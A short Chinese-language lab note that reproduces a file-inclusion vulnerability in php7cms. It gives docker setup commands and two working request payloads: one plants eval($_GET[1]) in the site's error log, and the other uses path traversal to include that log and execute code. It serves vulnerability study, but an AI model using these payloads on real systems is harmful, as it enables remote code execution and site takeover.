



### php7cms

#### 文件包含

```
版本信息：20181009
# 拉取镜像
docker pull sqlsec/alpine-lamp

# 运行容器 记住要指定密码
docker run -d -p 8080:80 -e MYSQL_ROOT_PASSWORD=root sqlsec/alpine-lamp
```

利用网站自带的错误日志来进行包含

```
index.php?s=news&c=search&keyword=%E5%9B%BA%E5%AE%9A&order=2%3C?=/*&sss=*/eval($_GET[1]);
```

这样就会生成一个错误日志cache/error/log-2022-11-21.php

命名规则就是log-年-月-日.php

包含该文件

```
index.php?s=api&c=api&m=template&name=../../../../cache/error/log-2022-11-21.php&1=phpinfo();
```

会以注释的方式包含出来







